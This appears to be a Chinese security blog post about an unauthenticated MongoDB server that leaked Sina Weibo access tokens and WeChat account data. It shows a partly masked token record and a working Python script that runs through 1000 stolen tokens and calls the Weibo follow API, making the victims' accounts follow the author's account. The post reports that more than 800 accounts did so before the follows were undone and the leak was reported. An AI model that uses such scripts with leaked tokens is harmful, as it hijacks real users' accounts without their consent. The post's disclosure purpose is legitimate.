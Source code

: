```yaml
---
layout: post
title: Mongodb未授权访问漏洞之某主机泄露新浪微博accessToken
---
```


## {{ page.title }}


<p class="date">{{ page.date | date_to_string }} - Evi1m0</p>

### 背景

在前段时间邪红F1,2,4发出 [《Mongodb unauthorized access vulnerability global probing report》](http://www.hackersoul.com/post/mongodb_unauthorized_access_vulnerability_global_probing_report.html) 后，我们对这些受影响的列表进行了简单的数据分析，其中发现了一台有趣的主机。

### 数据泄露

其中这台Mongodb数据主机存储着大量的微信公众号信息，新浪微博授权信息等敏感信息，其中我们对新浪微博授权信息进行简单的测试。

### 测试过程

筛选1000条存储的用户新浪微博的授权数据，其中格式为：

    {
        "_modified" : ISODate("2014-09-14T06:30:33.718Z"),
        "_created" : ISODate("2014-09-14T06:30:33.718Z"),
        "uid" : "163****265",
        "url" : "u/163****265",
        "name" : "猫****",
        "screenName" : "猫****",
        "accessToken" : "2.00LniemB******d10ba02ef5oEMJTB",
        "description" : "",
        "verified" : false,
        "logo" : "http://tp2.sinaimg.cn/1635102265/50/4000*****04/1",
        "logoLarge" : "http://tp2.sinaimg.cn/1635102265/180/4000*****04/1",
        "type" : "normal",
        "_id" : "14872d****48a87"
    }
    
其中数据泄露新浪微博用户授权成功后的accessToken值，将数据以JSON进行导出后使用Python进行处理，提取出1000条accessToken方便进行测试。

[微博API](http://open.weibo.com/wiki/%E5%BE%AE%E5%8D%9AAPI)：

- [statuses/update 发布一条微博信息](http://open.weibo.com/wiki/2/statuses/update)
- [statuses/user_timeline/ids 获取用户发布的微博的ID](http://open.weibo.com/wiki/2/statuses/user_timeline/ids)
- [statuses/destroy 根据微博ID删除指定微博](http://open.weibo.com/wiki/2/statuses/destroy)
- [friendships/create 关注一个用户](http://open.weibo.com/wiki/2/friendships/create)
- [More](http://open.weibo.com/wiki/%E5%BE%AE%E5%8D%9AAPI)

之后我们使用关注用户API进行简单的测试，编写脚本批量的利用泄露的accessToken值进行关注用户：

    #!/usr/bin/env python
    # coding=utf8
    # author=evi1m0#ff0000team

    import requests

    f = open('./accessToken.txt','r')
    flag = 1
    for i in f:
        api_url = 'https://api.weibo.com/2/friendships/create.json'
        post = {"uid":"5238604657", "access_token":i.split()}
        requests.post(api_url, data=post)
        flag+=1
        print '[*] ' + str(flag) + ': ' + api_url
        print post
        print
        
其中uid为关注用户的UID，遍历./accessToken.txt中的accessToken进行请求，于是不一会儿的功夫我们测试微博收到了新增800多个粉丝的消息，后面我们又利用取消关注API进行了取消操作。

### 状态

我们没有对这些数据进行恶意利用，目前已提交给官方进行及时修复：）
